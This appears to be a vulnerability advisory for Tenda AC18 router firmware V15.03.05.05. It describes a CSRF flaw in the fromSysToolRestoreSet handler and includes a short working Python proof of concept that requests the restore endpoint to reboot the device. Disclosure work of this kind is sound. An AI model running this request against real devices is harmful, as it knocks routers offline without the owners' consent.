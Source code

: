## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda A18 V15.03.05.05 has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolRestoreSet` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240308170456738](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170456738.png)

![image-20240308170633794](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170633794.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolRestoreSet"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yhryhr',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)
print(response.text)
```

![image-20240308170545411](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170545411.png)